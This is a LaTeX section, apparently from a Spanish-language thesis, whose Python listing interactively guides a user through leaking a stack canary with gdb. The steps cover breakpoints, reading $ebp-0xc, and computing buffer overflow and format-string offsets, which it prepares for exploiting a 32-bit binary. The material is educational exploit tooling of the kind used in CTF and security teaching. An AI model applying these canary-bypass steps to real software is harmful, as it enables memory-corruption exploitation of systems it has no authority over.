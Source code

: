 \subsubsection{Plantilla canario real}
\begin{lstlisting}[language=Python, caption=Plantilla canario real]
print("El binario tiene un canario real, sigue los siguientes pasos!")
leak_fn = input("Cual es la función que tiene el leak?? ")
print("Primero vas a sacar el offset en el buffer overflow hasta el canario, necesitas establecer un breakpoint antes de terminar la función, usa: 'b strncpy'")
print("Ahora necesitas inyectar el código cíclico antes generado para poder calcular offsets")
print("En cuanto llegue al breakpoint, vas a revisar el valor del canario, este se úbica en la dirección $ebp - 0xc, usa el siguiente comando: 'x/x $ebp - 0xc'")
canary_offset = int(input("Cual es el valor que tiene esa dirección? "), 16)
solver.find_canary_offset(canary_offset)
if not solver.makes_sense():
    print("Hay algo mal, repite la ejecución y asegurate que los valores están bien, el offset al canario no puede ser mayor o igual al del EIP")
    exit(1)
print("Ahora necesitas sacar el offset del format string del canario, vas a parar antes de la llamada a la función de fgets")
print("Para ello escribe el siguiente comando")
print(f"Escribe este comando: disassemble {leak_fn}")
print("Busca el offset de la función fgets, por ejemplo, input_0 +54")
offset_bp = input("Cual es el offset de fgets? ")
print(f"Muy bien, entonces vamos a parar la ejecución justo antes de que llegue con el comando: b *{leak_fn} + {offset_bp}")
print("Continuamos la ejecución ejecutando: continue")
print("Debemos ver que ha parado justo antes de la llamada, ahora necesitamos recuperar dos valores, EBP y ESP")
print("Para ello usa el comando 'p $esp' para saber el valor del ESP y 'p $ebp' para el del EBP")
ebp = int(input("Cual es el valor del EBP? "), 16)
esp = int(input("Cual es el valor del ESP? "), 16)
print("Con esos valores y mediante el cálculo de (EBP - ESP - 0xc) // 4 podremos saber el offset del format string")
canary_fmtstr = solver.get_canary_fmtstr(ebp, esp)
print(f"El valor que leakea el canario es: {canary_fmtstr}")
print("Pruebalo a ver que sucede al introducir ese valor, debería devolver un resultado acabado en 00, presiona 'continue'")
canario = int(input("Cual ha sido el valor devuelto? En caso de que acabe en 00 ya tienes bajo control el canario! "), 16)
solver.set_canary(canario)
\end{lstlisting}
